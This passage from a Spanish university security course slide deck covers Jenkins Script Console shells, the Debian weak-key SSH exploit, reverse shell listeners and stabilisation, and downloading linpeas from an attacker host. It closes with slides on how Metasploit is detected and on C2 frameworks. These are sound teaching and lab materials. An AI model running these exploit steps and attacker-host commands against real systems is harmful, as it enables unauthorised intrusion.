  \end{itemize}
\lead{Reverse shell (Groovy)}
\cmdbox{rlwrap nc -lvnp 443 \ \ \# listener en Kali\\
\# pegar el payload Groovy de revshells.com en la consola y ejecutar\\
\# $\rightarrow$ shell con whoami = jenkins}
\lead{Ejecutar comandos y ver la salida}
\cmdbox{def proc = "id".execute(); ... println(os.toString())}
  \begin{itemize}
  \item Sin listener, la salida aparece en la ventana \cmd{Result} de la propia consola.
  \item Esto no es una vulnerabilidad: es una funcionalidad legítima de Jenkins. Por eso no hay parche que aplicar, solo control de acceso.
  \end{itemize}
\end{frame}

\begin{frame}{Jenkins: explotación manual paso a paso}
  Jenkins --- Script Console. Explotación de manera manual
\begin{center}
\includegraphics[width=0.7\textwidth,height=0.78\textheight,keepaspectratio]{img/sl059_1.png}
\end{center}
\end{frame}

\begin{frame}{Exploit manual de SSH: CVE-2008-0166}
\footnotesize
  \begin{itemize}
  \item Vulnerabilidad: \emph{Debian OpenSSL Weak Keys} (2008). Afecta a OpenSSL 0.9.8c-1 $\rightarrow$ 0.9.8g-9 en Debian y derivados.
  \item El PRNG usaba solo el PID como entropía $\rightarrow$ solo 65\,536 claves SSH posibles.
  \item Metasploitable2 tiene el SSH vulnerable (puerto 22).
  \end{itemize}
\lead{Explotación manual}
\cmdbox{\# 1. Descargar las claves precalculadas\\
wget https://github.com/g0tmi1k/debian-ssh/raw/master/uncommon\_keys.tar.bz2\\
tar xjf uncommon\_keys.tar.bz2\\[2pt]
\# 2. Usar el script Perl del exploit\\
perl 5622.pl <IP\_VICTIMA> root 22 rsa/2048\\[2pt]
\# 3. Alternativa con searchsploit\\
searchsploit debian openssh\\
searchsploit -m 5622}
  \begin{itemize}
  \item La sesión SSH obtenida tiene permisos de root en Metasploitable2.
  \item El fallo lo introdujo un parche bienintencionado que eliminó código marcado como «no inicializado» por una herramienta de análisis. Estuvo activo casi dos años.
  \end{itemize}
\fuente{Fuente: \href{https://www.exploit-db.com/exploits/5622}{exploit-db.com/exploits/5622}}
\end{frame}

\begin{frame}{Ejercicio: máquina 0day (TryHackMe)}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.38\textheight,keepaspectratio]{img/sl106_1.jpg}
\end{center}
  \begin{itemize}
  \item Resuelve la máquina \href{https://tonyrahmos.medium.com/0day-tryhackme-writeup-fc44311cac73}{0day} de TryHackMe.
  \item Claves para resolverla:
    \begin{itemize}
    \item Enumeración en el puerto 80.
    \item Romper un \cmd{id\_rsa} $\rightarrow$ es un \emph{rabbit hole}.
    \item Buscar un fichero en \cmd{cgi-bin} para explotar Shellshock.
    \item Para elevar privilegios, explotar la vulnerabilidad Dirty COW.
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: Kioptrix Level 1 (VulnHub)}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl107_1.jpg}
\end{center}
  \begin{itemize}
  \item Resuelve la máquina \href{https://www.vulnhub.com/entry/kioptrix-level-1-1,22/}{Kioptrix: Level 1} de VulnHub.
  \item Pistas:
    \begin{itemize}
    \item Exploit \cmd{trans2open}.
    \item Exploit manual \href{https://github.com/exploit-inters/OpenFuck}{OpenFuck}.
    \end{itemize}
  \end{itemize}
\end{frame}

\section{Tips}

\begin{frame}{Cifrar la shell con ncat}
\small
Problemas con netcat
  \begin{itemize}
  \item La conexión va en claro\dots ¿se puede cifrar? Sí, con la herramienta \cmd{ncat}.
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.62\textheight,keepaspectratio]{img/sl095_1.png}
\end{center}
\fuente{Fuente y otras alternativas: \href{https://thehackerway.com/2022/11/09/como-crear-una-reverse-shell-cifrada-parte-1-de-2/}{The Hacker Way --- cómo crear una reverse shell cifrada}}
\end{frame}

\begin{frame}{Cuando no hay netcat en la víctima}
\small
  \begin{itemize}
  \item A veces ocurre que netcat no está disponible en la máquina víctima\dots ¿entonces? Se puede hacer directamente en bash, Python, Perl, PHP\dots
  \item Generador de reverse shells: \href{https://www.revshells.com/}{revshells.com}
  \item Chuletarios:
    \begin{itemize}
    \item \href{https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/}{InternalAllTheThings --- Reverse Shell Cheatsheet}
    \item \href{https://github.com/p0dalirius/Awesome-RCE-techniques}{Awesome RCE techniques}
    \end{itemize}
  \end{itemize}
\begin{center}
\begin{minipage}[c]{0.71\textwidth}\centering

\includegraphics[width=\textwidth,height=0.2\textheight,keepaspectratio]{img/sl096_1.png}
\end{minipage}\hfill
\begin{minipage}[c]{0.25\textwidth}\centering

\includegraphics[width=\textwidth,height=0.45\textheight,keepaspectratio]{img/sl096_2.jpg}
\end{minipage}
\end{center}
\end{frame}

\begin{frame}{Herramientas para recoger reverse shells}
\small
  \begin{itemize}
  \item Otra opción es usar herramientas de terceros para recoger la reverse shell y aprovechar las funcionalidades que incorporan.
  \item La mejor alternativa, desde mi punto de vista, es \href{https://github.com/brightio/penelope}{Penelope}: estabiliza la TTY automáticamente, gestiona varias sesiones, sube y descarga ficheros y registra todo lo que ocurre.
  \item También existe \href{https://github.com/ShutdownRepo/shellerator}{shellerator}, un generador de one-liners de reverse y bind shell.
  \item Y \href{https://github.com/hanslub42/rlwrap}{rlwrap}, que añade histórico y edición de línea a cualquier shell obtenida con netcat.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: prueba de concepto con Penelope}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl098_1.jpg}
\end{center}
  \begin{itemize}
  \item Realiza una prueba de concepto con la herramienta \href{https://github.com/brightio/penelope}{Penelope}.
  \end{itemize}
\end{frame}

\begin{frame}{Estabilizar una shell}
\footnotesize
  \begin{itemize}
  \item A veces, cuando hacemos una intrusión, la shell que obtenemos no tiene una TTY interactiva. Para mejorarla podemos hacer un ``upgrade'' a una shell bash así:
  \end{itemize}
\cmdbox{script /dev/null -c bash\\
Ctrl+Z \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \# suspender la shell\\
stty raw -echo; fg \ \ \ \ \ \ \# escribir fg + Enter aunque no se vea\\
reset\\
export TERM=xterm\\
export SHELL=bash\\[2pt]
\# ajustar las dimensiones de la ventana\\
stty -a \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \# consultar filas y columnas en TU terminal\\
stty rows 52 columns 187}
  \begin{itemize}
  \item Sin esto no funcionan \cmd{sudo}, \cmd{ssh}, \cmd{vim} ni el autocompletado, y un \cmd{Ctrl+C} mata la sesión entera en lugar del proceso.
  \item Otra alternativa es usar \href{https://github.com/hanslub42/rlwrap}{rlwrap}, que añade histórico y edición de línea:
  \end{itemize}
\cmdbox{rlwrap nc -lvp 4444}
\end{frame}

\begin{frame}{Transferir ficheros}
\small
Transferir ficheros
  \begin{itemize}
  \item Si necesito compartir ficheros o binarios entre la máquina atacante y la comprometida, puedo levantar un servidor web de muchas maneras. Por ejemplo:
  \end{itemize}
\cmdbox{python3 -m http.server 8000 \ \ \ \# atacante\\
wget http://<IP\_ATACANTE>:8000/linpeas.sh \ \ \# víctima}
  \begin{itemize}
  \item Recopilaciones de one-liners para levantar un servidor:
    \begin{itemize}
    \item \href{https://gist.github.com/willurd/5720255}{Big list of HTTP static server one-liners}
    \item \href{https://www.linkedin.com/posts/hackingarticles_file-transfer-cheatsheet-windows-and-linux-ugcPost-7228985028884541441-DF6j/}{File Transfer Cheatsheet: Windows y Linux}
    \end{itemize}
  \item \cmd{linpeas.sh} y \cmd{winPEAS} son los scripts de enumeración local más usados para buscar vías de escalada: \href{https://github.com/peass-ng/PEASS-ng}{PEASS-ng}.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: EchoCTF}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl110_1.jpg}
\end{center}
  \begin{itemize}
  \item EchoCTF es un portal de entrenamiento similar a TryHackMe. Puedes registrarte, bajarte el fichero \cmd{.ovpn} y resolver algunas máquinas interesantes, por ejemplo \href{https://echoctf.red/target/13}{Flanders}.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: replicar un CVE de Awesome CVE PoC}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl111_1.jpg}
\end{center}
  \begin{itemize}
  \item Puedes intentar realizar una prueba de concepto para replicar cualquiera de los CVE recogidos en:
    \begin{itemize}
    \item \href{https://github.com/qazbnm456/awesome-cve-poc}{Awesome CVE PoC}
    \end{itemize}
  \end{itemize}
\end{frame}

\section{Detección y alternativas}

\begin{frame}{Cómo se detecta Metasploit}
\footnotesize
  \begin{itemize}
  \item Metasploit es ruidoso \emph{por diseño}: prioriza fiabilidad y facilidad de uso sobre el sigilo. Todo lo que lo hace cómodo lo hace también detectable.
  \end{itemize}
\lead{En la red}
  \begin{itemize}
  \item Los payloads \emph{staged} generan un patrón reconocible: conexión saliente a un puerto alto seguida de la descarga del \emph{stage}. Las reglas de Snort y Suricata llevan años cubriéndolo.
  \item Puertos por defecto: \cmd{4444} (handler), \cmd{6200} (vsftpd), \cmd{1389} (JNDI). Cambiarlos es lo primero que hace un atacante real.
  \item El certificado TLS autofirmado de \cmd{reverse\_https} tiene valores por defecto característicos.
  \end{itemize}
\lead{En el endpoint}
  \begin{itemize}
  \item Meterpreter vive en memoria, pero para ello \textbf{inyecta} en un proceso: \cmd{migrate} deja un rastro claro de \emph{process injection} (\href{https://attack.mitre.org/techniques/T1055/}{T1055}).
  \item \cmd{getsystem} usa suplantación de \emph{named pipe} o de token, algo que Sysmon registra (eventos 1, 8, 10, 17 y 18).
  \item Las firmas estáticas de \cmd{shikata\_ga\_nai} y de la shellcode por defecto están en todos los motores antivirus.
  \end{itemize}
\fuente{\href{https://attack.mitre.org/software/S0002/}{ATT\&CK --- S0002 (Metasploit)} \textbar{}
        \href{https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon}{Sysmon} \textbar{}
        \href{https://www.elastic.co/security-labs}{Elastic Security Labs}}
\end{frame}

\begin{frame}{Alternativas modernas al framework}
\footnotesize
  \begin{itemize}
  \item En un red team real de 2026, Metasploit rara vez se usa para el acceso inicial contra objetivos con EDR: está demasiado quemado. Han aparecido frameworks C2 pensados para el sigilo.
  \end{itemize}
\lead{Frameworks C2 actuales}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item \href{https://github.com/BishopFox/sliver}{\textbf{Sliver}} (Bishop Fox) --- open source, en Go, multiplataforma. Implantes compilados de forma única para cada operación, con mTLS, DNS y WireGuard como canales. Es el sustituto natural de Metasploit para postexplotación.
  \item \href{https://github.com/HavocFramework/Havoc}{\textbf{Havoc}} --- open source, con agente en C que aplica técnicas modernas de evasión en memoria.
  \item \textbf{Cobalt Strike} --- el estándar comercial, y por eso también el más perseguido por los defensores.
  \item \href{https://github.com/t3l3machus/Villain}{\textbf{Villain}} --- ligero, orientado a gestionar shells y añadirles funcionalidad; útil como paso intermedio entre netcat y un C2 completo.
  \end{itemize}
\lead{Entonces, ¿para qué sigue sirviendo Metasploit?}
  \begin{itemize}
  \item Para lo que hemos hecho en este tema: \textbf{explotación} de vulnerabilidades conocidas, con la mayor colección de exploits mantenidos y probados que existe.
  \item Como banco de pruebas para el Blue Team, y como herramienta de aprendizaje: expone de forma explícita las piezas ---exploit, payload, encoder, sesión--- que los frameworks modernos esconden.
  \end{itemize}
\end{frame}

\begin{frame}{Bibliografía y recursos}
\footnotesize
\lead{Metasploit}
  \begin{itemize}
  \item \href{https://docs.metasploit.com/}{Documentación oficial de Metasploit Framework} (Rapid7).
  \item \href{https://www.offsec.com/metasploit-unleashed/}{Metasploit Unleashed} --- curso gratuito de OffSec.
  \item \href{https://www.rapid7.com/db/}{Rapid7 Vulnerability \& Exploit Database} --- ficha de cada módulo.
  \item \href{https://github.com/rapid7/metasploit-framework}{Código fuente} \textbar{} \href{https://docs.rapid7.com/metasploit/managing-the-database/}{Gestión de la base de datos}
  \end{itemize}
\lead{Vulnerabilidades: identificar y priorizar}
  \begin{itemize}
  \item \href{https://nvd.nist.gov/}{NVD (NIST)} $\cdot$ \href{https://www.cve.org/}{CVE Program} $\cdot$ \href{https://www.cvedetails.com/}{CVE Details}
  \item \href{https://www.first.org/cvss/}{CVSS} $\cdot$ \href{https://www.first.org/epss/}{EPSS} $\cdot$ \href{https://www.cisa.gov/known-exploited-vulnerabilities-catalog}{Catálogo KEV de CISA}
  \item \href{https://attack.mitre.org/}{MITRE ATT\&CK} --- \href{https://attack.mitre.org/techniques/T1190/}{T1190}, \href{https://attack.mitre.org/techniques/T1210/}{T1210}, \href{https://attack.mitre.org/techniques/T1203/}{T1203}, \href{https://attack.mitre.org/software/S0002/}{S0002}.
  \end{itemize}
\lead{Exploits y shells}
  \begin{itemize}
  \item \href{https://www.exploit-db.com/}{Exploit-DB} $\cdot$ \href{https://sploitus.com/}{Sploitus} $\cdot$ \href{https://github.com/qazbnm456/awesome-cve-poc}{Awesome CVE PoC}
  \item \href{https://www.revshells.com/}{revshells.com} $\cdot$ \href{https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/}{InternalAllTheThings} $\cdot$ \href{https://github.com/brightio/penelope}{Penelope} $\cdot$ \href{https://github.com/peass-ng/PEASS-ng}{PEASS-ng}
  \end{itemize}
\lead{Laboratorios y frameworks alternativos}
  \begin{itemize}
  \item \href{https://www.vulnhub.com/}{VulnHub} $\cdot$ \href{https://tryhackme.com/}{TryHackMe} $\cdot$ \href{https://vulnyx.com/}{VulnyX} $\cdot$ \href{https://echoctf.red/}{EchoCTF}
  \item \href{https://github.com/BishopFox/sliver}{Sliver} $\cdot$ \href{https://github.com/HavocFramework/Havoc}{Havoc} $\cdot$ \href{https://github.com/t3l3machus/Villain}{Villain}
  \end{itemize}
\end{frame}

\begin{frame}[plain]
  \begin{center}
    {\Huge\bfseries\color{uznavy} ¡Gracias!}\\[1em]
    {\large Seguridad en Sistemas Informáticos --- Tema 3.3}
  \end{center}
\end{frame}

\pdfinfo{ /Title () /Author () /Subject () /Keywords () /Creator () /Producer () }
\end{document}
